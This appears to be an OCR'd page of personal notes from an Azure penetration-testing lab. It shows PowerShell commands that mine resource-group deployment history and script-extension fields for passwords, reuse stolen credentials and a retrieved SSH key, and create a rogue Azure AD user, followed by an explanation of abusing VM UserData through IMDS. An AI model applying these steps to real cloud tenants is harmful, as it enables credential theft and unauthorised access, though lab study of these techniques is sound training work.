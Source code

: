 ```powershell
Get-AzResource # wont show if you just have rights on an RG
$groups = Get-AzResourceGroup # so check then check deployment details
foreach ($group in $groups) {
   $deps = Get-AzResourceGroupDeployment -ResourceGroupName $group.ResourceGroupName
   Write-Host $deps # we see a VM passwrod here
}
# Saving Template - Ddeployment for SAP group had passwords in the deployment history for the VM it deploys, lets checkout the template for the one with the script extension
Save-AzResourceGrroupDeploymentTemplate -ResourceGroupName $group.ResourceGroupName -DeploymentName stevencking_defcorphq@.onmicrosoft.com.sapsrv

# We find another password for stevencking in ScriptExtension commandToExecute field
cat stevencking_defcorphq@.onmicrosoft.com.sapsrv | findstr 'commandToExecute'

# Use Steven PW to Connect
Connect-AzAccount
Get-AzResourceGroup
Get-AzResource
Get-AzStorageContainer -Context (NEw-AzStorageContext -StorageAccountName defcorpcodebackup)

# Moved over to Storage Explorer
```

The same codebackup from earlier that gave us the Authetnicator app backup for the simpleapps, we access with the new user.
Storage Explorer revealed README and id_rsa key. The key is for jenniferazad and its code key for Github. This is the other user we folund in the Dockerfile earlier.

### FunctionApp /SSH Key / Pass Phrase
We use the same password for jenniferazad we found in the Dockerfile as the passphrase for SSH

```cmd
copy .\id_rsa ~\.ssh
ssh -T git@github.com
```

We have access to createusers repo, another function app deployment with json files and example for hopw to create a user programmatically. We clone the directory and we create a new azuread user
using the example, mkdir student 666 and notepad user.json. Ran the app, and created our new user

### Azure VM - User Data 
SImilar to "Description" in AD, but not really, as only people who can read it are the other processes on the VM. That said, ANY process on the VM can access this data using IMDS. Persists reboot, unencrypted, If you have command execution on a VM, you can read or inject a base64 encoded command 64kb or less. Can Contain powershell scripts, domain info, onboarding agents, config, etc. 

This is seen a lot performing Domain Join operations w/ terraform or other IaC tools. Since a standard user can only join 10 machines (or if the quota is correctly set to 0, none), many times a domain admin credential is used here.

It's possible to modify if you have Microsoft.Compute/virtualMachines/write. We can abuse automation/scheduled tasks that use the UserData for input. Modification event shows in logs but not what changes were made.
